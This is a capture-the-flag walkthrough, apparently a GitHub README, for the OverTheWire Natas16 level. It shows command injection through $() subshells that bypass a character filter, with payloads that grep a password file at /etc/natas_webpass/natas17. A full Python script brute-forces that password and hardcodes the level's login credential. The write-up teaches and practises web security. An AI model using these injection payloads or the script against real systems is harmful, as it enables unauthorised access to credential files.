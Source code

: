 # 🔐 Natas16 Walkthrough

This level is similar to Natas15, but now we have **extra restrictions**!  
Check the [source code](http://natas16.natas.labs.overthewire.org/index-source.html):

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```
## 🚫 Forbidden Characters  

The following characters are **blocked**, so we can’t use them for command injection:  

| 1  | 2  | 3  | 4  | 5  | 6  | 7  | 8  | 9  | 10  |
|----|----|----|----|----|----|----|----|----|-----|
| `/` | `[` | `]` | `;` | `\|` | `&` | `'` | `"` | `\` | `` ` `` |




**Good news:**  The `$` character is **still allowed**—that’s our way in!  


 ## 🌀 Subshell

Since `` '/[;|&`\'"]/' `` are forbidden, we can’t directly inject multiple commands. Luckily, the `$()` syntax is allowed, which executes a command inside a subshell. A ***subshell*** is a way to execute a command inside another command in the shell. Whatever the subshell outputs can then be used or appended in the outer command.

<div align="center">
  <img src="diagram-1.png" alt="Diagram">
</div>


## 🔍 Testing a character
Input:
```shell
$(grep e /etc/natas_webpass/natas17)squid
```


- If **e** is in the password, squid does not appear in the output. ✅

- If **e** is not, squid appears. ❌

This way, we can test each possible character in the password **without using the forbidden characters.** 


***Test:***


| INPUT    | OUTPUT |
| -------- | ------- |
| $(grep **e** /etc/natas_webpass/natas17)squid| None    |
| $(grep **a** /etc/natas_webpass/natas17)squid | squid, squid's, squidded, squidding, squids    |



Clearly, the password contains `e` and **doesnt** contain `a`. Now, as before we shall automate this process.

>[!IMPORTANT]
>We add `squid` at the end of the command solely to avoid printing the entire dictionary. The command itself would work the same without it, but in that case the full dictionary would be displayed, making it harder to analyze the website’s response due to the large number of returned strings.
## Python script

This script was written with readability in mind. I've added slightly altered version of the script to this directory which has some "animations" in the console log so, feel free to use that one.

```python
import requests
import string
import time

# =====================
# === CONFIGURATION ===
# =====================
url = "http://natas16.natas.labs.overthewire.org/"
authUsername = "natas16"
authPassword = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

# Possible characters in the password (letters + digits)
charData = string.ascii_letters + string.digits

# =====================================
# === STEP 1: Find valid characters ===
# =====================================

matchingCharData = ""  # This will hold characters that exist in the password

print("Step 1: Testing which characters exist in the password...\n")

for i in charData:
    # Create the payload using subshell injection.
    # "$(grep <char> /etc/natas_webpass/natas17)squid" will execute grep on the password file.
    # If <char> exists in the password, 'squid' will NOT appear in the response.
    injection = f"$(grep {i} /etc/natas_webpass/natas17)squid"
    tempUrl = f"{url}?needle={injection}&submit=Search"

    # Send the HTTP GET request with basic auth
    response = requests.get(tempUrl, auth=(authUsername, authPassword))

    # Check response for presence of 'squid'
    if 'squid' not in response.text:
        # Character exists in the password
        matchingCharData += i
        print(f"Valid character found: '{i}'")

print(f"\nPossible password characters: {matchingCharData}\n")

# ==========================================
# === STEP 2: Brute-force password order ===
# ==========================================

password = ""  # To build the password incrementally
print("Step 2: Brute-forcing password character by character...\n")

# Natas passwords are 32 characters long
while len(password) < 32:
    for char in matchingCharData:
        # Attempt to see if the password starts with the current guess
        attempt = password + char
        injection = f"$(grep ^{attempt} /etc/natas_webpass/natas17)squid"
        tempUrl = f"{url}?needle={injection}&submit=Search"

        response = requests.get(tempUrl, auth=(authUsername, authPassword))

        if 'squid' not in response.text:
            # Correct next character found
            password += char
            print(f"Password so far: {password}")
            break  # Move to next character

# Print final password
print(f"\nPassword for natas17: {password}")
```

The output should be your natas17 password! (:


